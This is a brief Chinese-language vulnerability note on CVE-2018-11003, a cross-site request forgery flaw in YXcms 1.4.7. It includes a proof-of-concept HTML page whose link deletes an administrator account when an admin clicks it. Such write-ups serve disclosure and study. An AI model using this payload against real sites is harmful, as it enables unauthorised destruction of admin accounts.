 # CVE-2018-11003 YXcms 1.4.7 跨站请求伪造漏洞

### 一、漏洞简介

YXcms 1.4.7版本中的protected/apps/admin/controller/adminController.php文件存在跨站请求伪造漏洞。远程攻击者可借助index.php?r=admin/admin/admindel利用该漏洞删除管理员账户。

### 二、漏洞影响

YXcms 1.4.7

### 三、复现过程

POC:

管理员点击链接

`http://192.168.232.133/evil.html`

evil.html


```html
<html> 
<a href="http://127.0.0.1/yxcms1.4.7/index.php?r=admin/admin/admindel&id=1">test</a>
</html>
```